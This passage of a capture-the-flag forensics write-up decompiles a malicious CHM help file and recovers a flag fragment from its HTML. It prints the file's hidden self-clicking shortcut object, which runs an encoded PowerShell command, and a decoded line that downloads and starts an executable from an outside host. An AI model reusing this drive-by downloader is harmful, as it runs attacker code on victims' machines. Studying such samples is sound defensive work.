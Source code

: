 Based on this button, I think it might have originally been a web page...

I used the [HelpSmith](http://www.create-chm.com/chm-help-compiler/) tool and obtained the following zip file.

![](/images/writeups-forensics-umdctf/image-21.png)

Yes, it does contain a real web page... now it's more accurate.

![](/images/writeups-forensics-umdctf/image-23.png)

In the source code of the web page, there is a base64-encoded string: `VU1EQ1RGezE5OTdfY2FsbGVkXw==`.

![](/images/writeups-forensics-umdctf/image-22.png)

--> `UMDCTF{1997_called_`

```php
<PARAM name="Item1" value=',cmd.exe,/c powershell.exe -ExecutionPolicy Bypass -NoLogo -NoProfile -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAPQAnAGcAdQByAGwAXwBqAG4AYQBnAF8AZwB1AHIAdgBlACcA'>
<body>
    <!--VU1EQ1RGezE5OTdfY2FsbGVkXw==--> 
    <OBJECT id=shortcut classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11"
        width=1 height=1>
        <PARAM name="Command" value="ShortCut">
        <PARAM name="Button" value="Bitmap::shortcut">
        <PARAM name="Item1" value=',cmd.exe,/c powershell.exe -ExecutionPolicy Bypass -NoLogo -NoProfile -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAPQAnAGcAdQByAGwAXwBqAG4AYQBnAF8AZwB1AHIAdgBlACcA'>
        <PARAM name="Item2" value="273,1,1">
    </OBJECT>
    <SCRIPT> shortcut.Click(); </SCRIPT>
    <div class="container">
        <div class="text"> <strong>
                <h1>DOCTORS HATE HIM!!</h1>
            </strong>
            <p>Do you suffer from low energy, fatigue, and a general lack of motivation? Did your Pokemon leave you for
                a better trainer? Rocket Corp's Master Ball Serum can help! Our all-natural formula boosts your energy
                levels and helps you feel like a young trainer ready to take on the world again!</p><button>Find out
                more!</button>
        </div>
        <div class="image"> <img src="depressed_pokemon_trainer.png" alt="Pikachu"> </div>
    </div>
</body>
</html>
$env:WEB_REQUEST -Uri http://dns-server:6969/explorer.exe -OutFile explorer.exe; Start-Process explorer.exe
```
